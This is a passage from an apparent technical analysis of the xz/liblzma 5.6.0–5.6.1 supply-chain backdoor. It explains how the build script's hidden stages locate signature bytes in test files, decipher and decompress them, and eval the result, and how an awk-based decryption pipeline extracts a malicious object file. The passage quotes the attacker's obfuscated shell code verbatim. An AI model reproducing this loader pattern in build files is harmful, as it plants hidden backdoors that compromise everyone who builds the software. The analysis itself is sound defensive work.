 Fragment 3:

``vs=`grep -broaF 'jV!.^%' $top_srcdir/tests/files/ 2>/dev/null` if test "x$vs" != "x" > /dev/null 2>&1;then f1=`echo $vs | cut -d: -f1` if test "x$f1" != "x" > /dev/null 2>&1;then start=`expr $(echo $vs | cut -d: -f2) + 7` ve=`grep -broaF '%.R.1Z' $top_srcdir/tests/files/ 2>/dev/null` if test "x$ve" != "x" > /dev/null 2>&1;then f2=`echo $ve | cut -d: -f1` if test "x$f2" != "x" > /dev/null 2>&1;then [ ! "x$f2" = "x$f1" ] && exit 0 [ ! -f $f1 ] && exit 0 end=`expr $(echo $ve | cut -d: -f2) - $start` eval `cat $f1 | tail -c +${start} | head -c +${end} | tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377" | xz -F raw --lzma2 -dc` fi fi fi fi``

These two fragments are pretty much identical, so let's handle both of them at the same time. Here's what they do:

1.  First of all they try to find (grep -broaF) two files in tests/files/ directory which contain the following bytes (signature): `Fragment 1: "~!:_ W" and "|_!{ -" Fragment 3: "jV!.^%" and "%.R.1Z"` Note that what's actually outputted by grep in this case has the following format: file\_name:offset:signature. For example: `$ grep -broaF "XYZ" testfile:9:XYZ`  
    
2.  If such file is found, the offset for each file is extracted (cut -d: -f2, which takes the 2nd field assuming : is the field delimiter), and the first offset + 7 is saved as $start, and the second offset from the second file is saved as $end.
3.  Once the script has the $start and $end offsets, it carves out that part of the file-that-had-the-first-signature: `cat $f1 | tail -c +${start} | head -c +${end}`  
    
4.  And what follows is first the substitution cipher (using the 5.6.0 version key from Stage 1 btw): `tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377"`  
    
5.  and then decompressing the data for it to be promptly executed: `` eval `... | xz -F raw --lzma2 -dc` ``

Note that in neither of the investigated TAR archives (5.6.0 and 5.6.1) there were any files with any of the signatures. This whole thing basically looks like an "extension/patching" system that would allow adding future scripts to be run in the context of Stage 2, without having to modify the original payload-carrying test files. Which makes sense, as modyfing a "bad" and "good" test files over and over again is pretty suspicious. So the plan seemed to be to just add new test files instead, which would have been picked up, deciphered, and executed.

### [Stage 2 backdoor extraction](#stage2-backdoor)

As pointed out by Andres in the original e-mail, at some point an .o file is extracted and weaved into the compilation/linking process. The following code is responsible for that (again, differences between versions are marked with black background):

`N=0 W=88664 else N=88664 W=0 fi xz -dc $top_srcdir/tests/files/$p | eval $i | LC_ALL=C sed "s/\(.\)/\1\n/g" | LC_ALL=C awk 'BEGIN{FS="\n";RS="\n";ORS="";m=256;for(i=0;i<m;i++){t[sprintf("x%c",i)]=i;c[i]=((i*7)+5)%m;}i=0;j=0;for(l=0;l<8192;l++){i=(i+1)%m;a=c[i];j=(j+a)%m;c[i]=c[j];c[j]=a;}}{v=t["x" (NF<1?RS:$1)];i=(i+1)%m;a=c[i];j=(j+a)%m;b=c[j];c[i]=b;c[j]=a;k=c[(a+b)%m];printf "%c",(v+k)%m}' | xz -dc --single-stream | ((head -c +$N > /dev/null 2>&1) && head -c +$W) > liblzma_la-crc64-fast.o || true`

The differences between versions boil down to the size of the compressed-but-somewhat-mangled payload – that's 88792 in 5.6.0 and 88664 in 5.6.1 – and one value change in the AWK script, to which we'll get in a second.

As in all previous cases, the extraction process is a chain of commands, where the output of one command is the input of the next one. Furthermore, actually some steps are identical as in Stage 1 (which makes sense, since – as I've mentioned – they binary payload resides in the previously ignored part of the "good" file data). Let's take a look:
